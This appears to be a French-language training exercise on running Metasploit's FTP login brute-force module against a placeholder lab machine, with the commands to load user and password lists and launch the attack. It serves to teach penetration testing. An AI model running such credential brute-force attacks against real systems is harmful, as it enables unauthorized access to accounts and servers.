 # Exercice 2

- Effectuez une recherche pour trouver un exploit de brute-force sur des logins FTP
```bash
search ftp_brute
use auxiliary/scanner/ftp/ftp_login
```
- Mettez 2 fichiers en place dans votre "home directory" (users.txt et passwords.txt)

- Renseignez les paramètres corrects pour le module – sachant qu'un utilisateur peut avoir un compte sans mot de passe
```bash
set USER_FILE /home/kali/users.txt
set PASS_FILE /home/kali/passwords.txt
```
- Lancez l’attaque sur la machine X.X.X.X
```bash
set RHOSTS X.X.X.X
run
```
- Observez le résultat